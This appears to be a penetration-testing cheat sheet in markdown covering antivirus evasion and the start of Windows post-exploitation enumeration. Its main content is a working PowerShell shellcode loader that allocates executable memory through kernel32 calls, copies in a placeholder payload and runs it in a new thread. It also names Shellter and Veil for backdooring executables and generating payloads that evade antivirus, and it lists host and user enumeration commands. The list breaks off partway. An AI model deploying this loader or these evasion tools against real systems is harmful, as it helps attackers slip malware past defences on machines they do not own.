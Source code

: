 ```bash
```
# AV-Evasion
### Manual PowerShell AV Evasion
```powershell
# Run `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser` before running the `.ps1` script.
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Automation
	
- <mark>Shellter</mark>: #windows
	- a dynamic shellcode injection tool that uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file.
	- `.exe` only
- <mark>Veil</mark>: #windows
	- designed to generate metasploit payloads that bypass common anti-virus solutions.
	- supports various formats including `.exe`, `.ps1`, `.bat`
# Post-Exploitation
### Local-Enumeration
#### Windows
- <mark>System Information</mark>
```shell
#List patch infos:
"Systeminfo"
"wmic qfe get Caption,Description,HotFixID,InstalledOn"
```
- <mark>User & Groups</mark>
```shell
#List current logged-on users
"query user"
#List local user accounts
"net users"
#List local groups
```
